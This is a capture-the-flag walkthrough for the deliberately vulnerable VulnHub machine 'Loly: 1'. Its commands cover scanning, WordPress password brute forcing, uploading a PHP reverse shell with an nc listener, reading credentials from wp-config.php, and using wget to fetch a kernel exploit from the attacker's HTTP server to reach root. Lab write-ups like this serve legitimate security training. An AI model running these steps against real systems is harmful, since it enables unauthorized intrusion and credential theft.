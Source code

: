 # Loly-1-Vulnhub-Walkthrough
Loly: 1 Vulnhub Walkthrough

**Description**


    Difficulty: Easy
    Tested: VMware Workstation 15.x Pro (This works better with VMware rather than VirtualBox)
    Goal: Get the root shell i.e.(root@localhost:~#) and then obtain flag under /root).
    Information: Your feedback is appreciated - Email: suncsr.challenges@gmail.com

    Name: Loly: 1
    Date release: 21 Aug 2020
    Author: SunCSR Team
    Series: Loly
Click [here](https://vulnhub.com/entry/loly-1,538/) to download the machine!

So let's begin hacking!!

**Step 1: Scan the machine**

> nmap -sV <IP_address_of_your_machine>

![Screenshot](1.png)

From the scan we can see that, port 80 is open. Let's explore port 80.

**Step 2: Go to machine's IP in web browser**

In your web browser

>http://<IP_address_of_your_machine>  

![Screenshot](2.png)

This doesn't help us much! Let's try bruteforcing the IP with dirb.

**Step 3: Bruteforce the IP with dirb**

> dirb http://<IP_address_of_your_machine> 

![Screenshot](3.png)

From the scan we can see that this is a wordpress site.

![Screenshot](4.png)

But the website is not properly responding, may be because of domain name mapping.

Hence, we need to add the entry in /etc/hosts file as shown in the image below. This entry will not only browse the page in an efficient way but will also help us to run wpscan on the next screen.

![Screenshot](5.png)

**Step 4: Run wpscan**

> wpscan --url http://<IP_address_of_your_machine> --enumerate u

![Screenshot](6.png)

![Screenshot](7.png)

From the scan we get to know the username `loly` , let's bruteforce it with wpscan.

**Step 5: Bruteforce the password**

> wpscan --url http://<IP_address_of_your_machine> -U loly -P /usr/share/wordlists/rockyou.txt

![Screenshot](8.png)

![Screenshot](9.png)

We successfully got the password for the username. Let's login with the credentials.

**Step 6: Login to wp-login**

In your browser
> http://<IP_address_of_your_machine>/wp-login

![Screenshot](10.png)

**Step 7: Exploiting**

Get the php reverse shell from [here](https://github.com/pentestmonkey/php-reverse-shell)

![Screenshot](11.png)

Uploading a php reverse shell but it's in zip format as the admin panel accepts zip format and automatically unzips the file.

**Step 8: Access the shell**

Start listening to the mentioned port and then open the shell in the browser

> nc -lvp 1234

![Screenshot](13.png)

![Screenshot](12.png)

After getting the shell, trying to get shell from python one-liner to get a clear picture.

> python3 -c 'import pty; pty.spawn("/bin/bash")'

![Screenshot](14.png)

![Screenshot](15.png)

From the `wp-config.php` file we got the password `lolyisabeautifulgirl`

Trying to get to know whom this password belongs to.

> cat /etc/passwd

![Screenshot](16.png)

Looks like it belongs to `loly`.

**Step 9: Privilage escalation**

Login to `loly`.

> su loly
Type `lolyisabeautifulgirl` for password

> lsb_release -a

The `lsb_release` command displays LSB (Linux Standard Base) information about specific Linux distribution, including version number, release codename, and distributor ID.

> uname a-
Next, we will run the `uname` command to know about the Linux kernel version and some other information so we should have enough evidence about the system for Privilege Escalation.

![Screenshot](17.png)

Now we know that Ubuntu 4.4.0 is running on the victim's machine. Let's try to find out the exploit related to this version.

> searchsploit ubuntu 4.4.0

> searchsploit -m 45010

![Screenshot](18.png)

> python -m SimpleHTTPServer

There is an exploit related to that version and we can use that.  We have to copy the exploit to the victim's machine for that we are using the python simple http server.

> wget http://<your_machine_ip>:8000/45010.c

In the reverse shell we obtained, we'll download the exploit file and compile it and we will use the `chmod` command to make the file readable, writable, and executable.

![Screenshot](19.png)

Move into the root folder and reveal the flag!!

![Screenshot](20.png)
